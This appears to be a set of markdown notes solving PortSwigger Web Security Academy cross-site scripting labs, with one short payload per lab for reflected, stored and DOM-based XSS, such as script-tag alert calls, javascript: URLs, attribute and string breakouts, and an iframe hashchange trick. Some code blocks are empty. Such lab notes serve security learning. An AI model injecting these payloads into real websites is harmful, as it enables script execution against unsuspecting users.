






____

# Reflected XSS into HTML

The value of the **search** request parameter is copied into the HTML document as plain text between tags. 
```js
<script>alert(1)</script> 
```
This input was echoed unmodified in the application's response.


# Stored XSS into HTML 

In the comment section,
```js
<script>alert(1)</script> 
```

# DOM XSS in `document.write` sink using source `location.search`



```html
"><script>alert(1)</script>
```



# DOM XSS in `innerHTML` sink using source `location.search`

Data is read from **location.search** and passed to **element.innerHTML**.

```js

```


# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

The application may be vulnerable to DOM-based link manipulation. Data is read from **location.search** and passed to **jQuery.attr.href**.

```js
javascript:alert(1)
```



# DOM XSS in jQuery selector sink using a hashchange event

```js
#
```

```html
<iframe src="https://0a7700c6030ec6b582e3533b006c00b1.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

# Reflected XSS into attribute with angle brackets HTML-encoded

```html]
"><script>alert(1)</script>
```

The value of the **search** request parameter is copied into the value of an HTML tag attribute which is encapsulated in double quotation marks. The payload **uy0y9"onfocus="alert(1)"autofocus="zkgoa** was submitted in the search parameter.

# Stored XSS into anchor `href` attribute with double quotes HTML-encoded

```js
javascript:alert(1)
```


## Reflected XSS into a JavaScript string with angle brackets HTML encoded



The value of the **search** request parameter is copied into a JavaScript string which is encapsulated in single quotation marks. The payload **71598';alert(1)//294** was submitted in the search parameter.



```js
';alert(1)//
```


